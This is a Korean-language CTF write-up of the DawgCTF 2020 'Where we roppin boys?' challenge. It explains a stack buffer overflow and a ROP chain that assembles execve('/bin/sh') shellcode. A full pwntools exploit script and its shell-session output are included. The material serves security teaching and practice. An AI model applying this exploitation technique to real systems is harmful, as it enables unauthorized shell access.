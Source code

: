 # [WriteUp]DawgCTF 2020 - Where we roppin boys?

:black_nib:N1be(sj.dr.nibe@gmail.com)

---

## Overview

### welcome()

```c
int (*welcome())(void)
{
  int (*result)(void); // eax

  puts("What's up guys welcome to my channel today we're gonna hack fornite XD");
  puts("So where we roppin boys?");
  shellcode = (int (*)(void))mmap(0, 0x1Cu, 3, 34, -1, 0);
  result = shellcode;
  if ( shellcode == (int (*)(void))-1 )
  {
    perror("mmap() failed");
    exit(1);
  }
  return result;
}
```

`welcome()`에서는 `mmap()`으로 영역을 할당하는데, 쉘코드가 들어갈 영역인 것 같다.

### tryme()

```c
int tryme()
{
  char s[8]; // [esp+Ch] [ebp-Ch]

  fgets(s, 25, stdin);
  fflush(stdin);
  return 0;
}
```

`tryme()`에서는 `fgets()`로 문자열을 입력받는데, `s`의 시작 주소가 `ebp-0xc`이고 입력은 `0x19`바이트만큼 받기 때문에 return address와 그 뒤의 4바이트를 원하는 값으로 덮을 수 있다.

바이너리에는 ROP의 퍼즐 조각인 7개의 함수들과 `win()`이라는 함수가 있다. 한 예시로 `loot_lake()`는 다음과 같이 생겼다.

```c
int loot_lake()
{
  int v0; // edx
  int v1; // edx
  int v2; // edx
  int v3; // edx

  if ( len > 23 )
    return 1;
  v0 = len++;
  *((_BYTE *)shellcode + v0) = 0xC0;
  v1 = len++;
  *((_BYTE *)shellcode + v1) = 0x40;
  v2 = len++;
  *((_BYTE *)shellcode + v2) = 0xCD;
  v3 = len++;
  *((_BYTE *)shellcode + v3) = 0x80;
  return 0;
}
```

나머지 6개의 함수들도 똑같이 생겼고 숫자만 다르다. 함수를 호출하면 `welcome()`에서 할당된 `shellcode` 영역에 4바이트의 값을 쓴다. 값을 저장할 때마다 `len`을 늘리고 `len`이 23보다 크면 더 이상 입력하지 않는다. 초기에 `len`은 0이고, 후위 연산자를 이용해서 값을 증가시키기 때문에 `shellcode`에 24바이트까지는 입력할 수 있다.

### Mitigation

```shell
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

보호기법을 확인해 보면 PIE가 꺼져 있다. 함수들의 주소를 그대로 가져다 써도 된다. canary도 BOF를 위해서 당연히 없다.

---

## Exploit plan

`loot_lake()`의 주소와 `tryme()`의 주소로 ROP chain을 구성하여 `tryme()`의 return address를 덮으면, `loot_lake()`이 `shellcode`에 4바이트를 적은 뒤 다시 `tryme()`가 실행될 것이다. 결과적으로 `shellcode`의 길이가 24가 될 때까지 자유롭게 함수들을 호출하며 값을 적을 수 있다. 함수들의 순서를 적절히 조절하여 쉘을 획득할 수 있는 코드가 되도록 만들어야 한다. 이건 퍼즐을 요리조리 맞춰 보면 되는데, 뭐라 설명할 길이 없다. 그냥 하면 된다. 도움이 되는 사실은 `cd 80`이 `int 0x80`을 뜻한다는 것과, `68`이 `push`를 뜻한다는 것 정도가 있겠다.

결론적으로, 다음의 순서대로 호출하면 쉘코드가 완성된다.

`tilted_towers()` - `junk_junction()` - `snobby_shores()` - `greasy_grove()` - `lonely_lodge()` - `dusty_depot()`

```shell
   0xf7f89000:	xor    eax,eax
   0xf7f89002:	push   eax
   0xf7f89003:	push   0x68732f2f
   0xf7f89008:	push   0x6e69622f
   0xf7f8900d:	mov    ebx,esp
   0xf7f8900f:	mov    ecx,eax
   0xf7f89011:	mov    edx,eax
   0xf7f89013:	mov    al,0xb
   0xf7f89015:	int    0x80
```

나머지 하나 `loot_lake()`는 뒤에 붙이면 `exit()`까지 호출하는 쉘코드가 되는데, 최대 24바이트까지밖에 못 쓰니 버리자. 쉘을 획득하는 데에는 지장이 없다.

```python
# exploit_rop.py

from pwn import *

# r = process("./rop")
r = remote("ctf.umbccd.io", 4100)

loot_lake = 0x8049248 # address of loot_lake()
lonely_lodge = 0x80492e2 # address of lonely_lodge()
tilted_towers = 0x804937c # address of tilted_towers()
snobby_shores = 0x8049416 # address of snobby_shores()
dusty_depot = 0x80494b0 # address of dusty_depot()
junk_junction = 0x804954a # address of junk_junction()
greasy_grove = 0x80495e4 # address of greasy_grove()
win = 0x804967e # address of win()
tryme = 0x80496ca # address of tryme()

r.recvuntil("So where we roppin boys?\n")

dummy = "A" * 0x10

payload = dummy + p32(tilted_towers) + p32(tryme)
r.send(payload)

payload = dummy + p32(junk_junction) + p32(tryme)
r.send(payload)

payload = dummy + p32(snobby_shores) + p32(tryme)
r.send(payload)

payload = dummy + p32(greasy_grove) + p32(tryme)
r.send(payload)

payload = dummy + p32(lonely_lodge) + p32(tryme)
r.send(payload)

payload = dummy + p32(dusty_depot) + p32(tryme)
r.send(payload)

payload = dummy + p32(win)
r.sendline(payload)

r.interactive()
```

```shell
dr-nibe@ubuntu:~/DawgCTF2020$ python exploit_rop.py
[+] Opening connection to ctf.umbccd.io on port 4100: Done
[*] Switching to interactive mode
sh: 0: can't access tty; job control turned off
$ $ whoami
challuser
$ $ ls
flag.txt  rop
$ $ cat flag.txt
DawgCTF{f0rtni9ht_xD}
$ $  
```
